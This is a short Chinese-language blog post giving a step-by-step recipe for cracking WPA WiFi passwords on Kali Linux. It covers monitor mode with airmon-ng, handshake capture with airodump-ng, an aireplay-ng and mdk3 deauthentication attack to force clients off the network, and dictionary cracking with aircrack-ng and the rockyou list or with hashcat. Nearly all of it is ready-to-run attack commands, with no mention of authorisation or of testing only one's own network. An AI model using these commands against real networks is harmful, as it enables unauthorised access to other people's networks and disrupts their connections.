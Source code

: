 ```yaml
---
title: WIFI Crack on Kali
date: 2019-06-12 15:49:58
tags: 网络
categories: Linux
---
```

<font face="微软雅黑"> </font>
<center> </center>

<!-- more -->
<center> [本文地址](https://tiandaochouqin1.github.io/Simple-WIFI-Crack) </center>
<!-- TOC -->


<!-- /TOC -->


要求：

- Kali Linux，功能非常强大；
- 支持监控模式的网卡，一般都支持；
- 字典，字典的选择至关重要；
        gzip -d /usr/share/wordlists/rockyou.txt.gz //解压自带字典
- 时间和耐心。

WIFI四次握手:
![CWSP](../images/CWSP.jpg)

1. 断开WiFi，查看无线网卡；
        airmon-ng

2. 开启无线网卡的监控模式
        airmon-ng start wlan0

3. 查看周围WIFI网络信息
        airodump-ng wlan0mon

4. 抓取握手包
        airodump-ng -c 频道号 --bssid  MAC地址 -w  保存文件名 wlan0mon
参数解释：

- -c指定频道号
- --bssid指定路由器bssid
- -w指定抓取的数据包保存位置

5. 强制WIFI设备重连
        aireplay-ng -0 2 -a MAC of AP -c MAC of Station wlan0mon //没啥用

- -0表示发起deauthentication攻击
- -a指定无线路由器BSSID
- -c指定强制断开的设备

        mdk3 d -c channelnumber//也没用

        airmon-ng stop wlan0mon //停止监听

6. 使用字典破解
        aircrack-ng -w /usr/share/wordlists/rockyou.txt ***.cap

7. 使用显卡计算
[Hashcat](https://hashcat.net/hashcat/)
        aircrack-ng file.cap -J out.hccap
        hashcat -m 2500 out.hccap 字典文件

其它；
[Reaver 破解PIN码](http://topspeedsnail.com/kali-linux-crack-wifi-password-wps/)


